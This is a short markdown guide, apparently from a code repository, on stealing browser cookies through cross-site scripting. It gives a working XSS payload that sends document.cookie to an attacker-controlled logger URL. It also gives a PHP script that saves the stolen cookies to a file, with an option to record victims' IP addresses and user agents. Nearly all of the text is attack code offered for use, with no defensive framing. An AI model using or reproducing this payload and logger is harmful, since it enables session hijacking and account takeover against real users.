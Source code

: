 # Logging Cookies with XSS & PHP

## XSS Payload Example
```html
<img src=x onerror="location='http://your-logger-site.com/logger.php?cookies='+document.cookie">
```

---

## Step - PHP Logger (`logger.php`)
Create a file called `logger.php` on your server:

```php
<?php
if (isset($_GET['cookies'])) {
    $log = "[" . date("Y-m-d H:i:s") . "] " . $_GET['cookies'] . PHP_EOL;
    file_put_contents('cookies.log', $log, FILE_APPEND);
}
```

### Explanation
- `$_GET['cookies']`: Captures the cookies sent via URL.
- `file_put_contents()`: Saves the cookies into a file called `cookies.log`.
- `FILE_APPEND`: Ensures new logs are added instead of overwriting the file.

---

## Example Output (`cookies.log`)
```
[2025-03-05 14:32:10] PHPSESSID=abcd1234; other_cookie=value
```

---

## Optional
You can also log **IP address** and **User-Agent** if needed:
```php
$ip = $_SERVER['REMOTE_ADDR'];
$userAgent = $_SERVER['HTTP_USER_AGENT'];
$log = "[" . date("Y-m-d H:i:s") . "] IP: $ip | UA: $userAgent | Cookies: " . $_GET['cookies'] . PHP_EOL;
```
